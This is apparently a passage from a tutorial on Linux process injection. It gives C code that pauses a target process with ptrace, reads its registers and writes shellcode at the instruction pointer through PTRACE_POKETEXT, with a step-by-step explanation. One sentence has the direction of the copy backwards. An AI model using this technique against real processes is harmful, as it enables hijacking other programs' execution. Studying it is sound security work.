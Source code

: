 ```
printf ("+ Getting Registers\n");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }

  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);
  regs.rip += 2;	      

```
We are attached to the process and we need to inject our code into the process.
In 64 Bit Architecture, register RIP contains the address of the next instruction to be executed.
Same way in 32 Bit, EIP contains the address of the next instruction to be executed.

So, now as we have the target process in paused state, we want to redirect the execution to our malicious code. But first we need to find out what instruction was going to be executed next.

Simple purpose of this will be to resume the target process after our malicious code is executed.

So, we need to get current state of the registers with **PTRACE_GETREGS** and store them in **&regs**.

**regs.rip** contains the value of RIP register.

 we then call the **inject_data** function with arguments, **target process**, **shellcode** to be injected, **address of the rip** and **size** of our shellcode


```
Int inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;
  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
	{
	  perror ("ptrace(POKETEXT):");
	  return -1;
	}
    }
  return 0;
}
```
here, **inject_data** function is defined, which takes **process_id** , **source pointer**, **destination pointer** and **length** as arguments

We have defined several variables.

here, for loop executes **PTRACE_POKETEXT** which writes data from destination to source, in this case destination being our process memory and source being our shellcode.
